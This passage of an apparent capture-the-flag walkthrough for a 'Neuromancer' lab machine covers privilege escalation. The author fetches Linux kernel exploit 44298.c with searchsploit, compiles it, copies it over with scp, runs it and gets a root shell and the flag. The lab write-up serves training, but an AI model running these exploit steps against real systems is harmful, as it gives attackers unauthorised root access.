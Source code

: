 We copy the exploit to our current directory.

```bash
root@kali:~$ searchsploit -m linux/local/44298.c
```

We compile the exploit on the attacking machine since gcc is not installed on the victim machine.

```bash
root@kali:~$ gcc 44298.c -o exp
```

We transfer the exploit to the victim machine via SSH.

```bash
root@kali:~$ scp -i id_rsa -P 34483 exp ta@192.168.56.104:exp  
 ----------------------------------------------------------------
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
Enter passphrase for key 'id_rsa': 
exp
```

We grant execution privileges to the compiled exploit, execute it, and we get root.

```bash
ta@neuromancer:~$ chmod 755 exp 
ta@neuromancer:~$ ./exp 
task_struct = ffff88000af43800
uidptr = ffff88000c915484
spawning root shell
root@neuromancer:~# cd /root/
root@neuromancer:/root# ls
flag.txt  struts2  velocity.log
root@neuromancer:/root# cat flag.txt 
be3306f431dae5ebc93eebb291f4914a
root@neuromancer:/root#
```
